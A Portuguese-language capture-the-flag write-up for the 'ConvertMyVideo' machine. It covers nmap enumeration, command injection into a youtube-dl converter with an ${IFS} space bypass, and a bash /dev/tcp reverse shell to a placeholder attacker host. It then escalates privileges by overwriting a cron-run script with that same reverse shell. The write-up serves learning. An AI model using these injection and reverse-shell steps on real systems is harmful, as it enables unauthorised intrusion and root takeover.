# _**ConvertMyVideo CTF**_


## _**Enumeração**_
Vamos começar com um scan de rede no endereço IP alvo com <mark>Nmap</mark>
> ```bash
> nmap -p- -T3 [ip_address]
> nmap -p [ports_discovered] -T4 -sV [ip_address]
> ```


Temos apenas um website e SSH na porta 22  
Vamos investigar o website para vermos o que temos  



Uma única entrada de usuário, uma URL do youtube, para converter o vídeo para MP3  
Tentando um video aleatório, temos:  



Tentando listar arquivos do diretório, temos:  



Parece que comandos com espaço não são lidos  
O servidor não responde com um erro genérico do tipo _URL inválida_  
Ele retorna um erro detalhado diretamente do binário do sistema: 
* ERROR: Incomplete YouTube ID...
* WARNING: Assuming --restrict-filenames...

Esse erro é gerado explicitamente pela ferramenta de linha de comando **youtube-dl**  



Pesquisando por: _Command Injection Bypass Spaces_, temos que ao utilizar **${IFS}**, podemos realizar um _bypass_ deste caractere de espaço  
Como estamos executando comandos direto no servidor, podemos fazer ele buscar nosso arquivo malicioso com:
> ```
> bash -i >& /dev/tcp/[attacker_ip_address]/[port] 0>&1
> ```

Em seguida, vamos utilizar _wget_ para o servidor buscar nosso arquivo via HTTP  



Vamos dar permissões de execução para nosso arquivo



Agora, só executar ```bash [filename]``` para termos uma _reverse shell!_



Vamos transferir a ferramenta <mark>LinPEAS</mark> e executar na máquina-alvo para procurar maneiras de escalar privilégios  
Temos diversos processos _cron_ encontrados na máquina  
Vamos utilizar a ferramenta **pspy** para verificar o que estes processos estão fazendo  
Este processo nos chama a atenção, sendo executado mais de uma vez e em um diretório acessível  



Investigando, temos o seguinte



Vamos adicionar nosso comando com: ```echo 'bash -i >& /dev/tcp/[attacker_ip_address]/[port] 0>&1' > clean.sh```  
Ligamos nosso _listener_ e então, aguardamos a execução do _cronjob_ e obtemos shell privilegiado  



Agora, ir atrás das flags!
